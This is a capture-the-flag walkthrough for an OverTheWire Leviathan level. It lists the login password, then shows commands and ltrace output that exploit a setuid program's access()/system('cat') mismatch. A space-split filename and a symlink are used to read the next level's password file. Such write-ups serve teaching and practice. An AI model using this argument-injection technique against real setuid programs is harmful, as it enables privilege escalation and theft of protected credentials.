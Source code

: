 # Connection:

ssh leviathan2@leviathan.labs.overthewire.org -p 2223
password: `ougahZi8Ta`

# Solution:

1. Notice that `printfile` executable is owned by `leviathan3` user
2. Create your directory in `/tmp` dir and some text file inside like so: `/tmp/random_6789/test.txt`
3. Inside your directory, execute `~/printfile "test.txt"`
4. So the executable just list the file content
5. Try with passing `/etc/leviathan_pass/leviathan3` -> of course this does not work :D
6. Run `ltrace ~/printfile "test.txt"`
7. Get output:

```
__libc_start_main(0x804852b, 2, 0xffffd744, 0x8048610 <unfinished ...>
access("test.txt", 4)                            = 0
snprintf("/bin/cat test.txt", 511, "/bin/cat %s", "test.txt") = 17
geteuid()                                        = 12002
geteuid()                                        = 12002
setreuid(12002, 12002)                           = 0
system("/bin/cat test.txt"Real Test.txt file
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                           = 0
+++ exited (status 0) +++
```

8. Notice that `access` is used to determine if one can access passed file
9. Notice that `cat` is used to print out the file content
10. There is one important difference how `access` and `cat` work. `access` process spaces as part of one file path, while `cat` will treat each space character as separator of next file to read
11. Let's try if this works
12. Create one more text file called `test2.txt` with some content in it
13. Create a file with space delimiting `test.txt` and `test2.txt` -> `touch test.txt\ test2.txt`
14. Execute `~/printfile "test.txt test2.txt"`
15. Notice that `cat` was called on two files
16. Create symlink to `etc/leviathan_pass/leviathan3` -> `ln -s /etc/leviathan_pass/leviathan3 sym-link`
17. Create a file with spaces in it delimiting the symlink -> `touch somefile.txt\ sym-link`
18. Execute `~/printfile "somefile.txt sym-link"`
19. Get flag
20. This works because you have an access to the file in `tmp` dir and then `cat` evaluates the actual symlink (and file can be access because onwer of `printfile` is `leviathan3`)
